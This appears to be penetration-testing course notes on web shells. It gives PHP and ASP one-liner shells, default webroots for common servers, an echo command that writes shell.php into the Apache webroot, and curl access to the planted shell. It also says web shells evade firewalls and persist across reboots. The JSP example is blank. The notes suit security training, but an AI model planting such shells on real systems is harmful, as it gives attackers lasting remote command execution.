 # Web Shell

## Writing a Web Shell
First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

### Code: `php`

    <?php system($_REQUEST["cmd"]); ?>

### Code: `jsp`

    <%                                                         %>

### Code: `asp`

    <% eval request("cmd") %>

## Uploading a Web Shell
Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| **Webserver**   | **Default Webroot**   |
| --------------|-------------------|
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

### Code: bash
    
    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

## Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use ?cmd=id to execute the id command:

   
http://SERVER_IP:PORT/shell.php?cmd=id
![image](https://user-images.githubusercontent.com/87195021/162104832-eeac112b-d5c3-4789-9fc6-d8601175e93a.png)

### Another option is to use cURL:

    MBWest@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.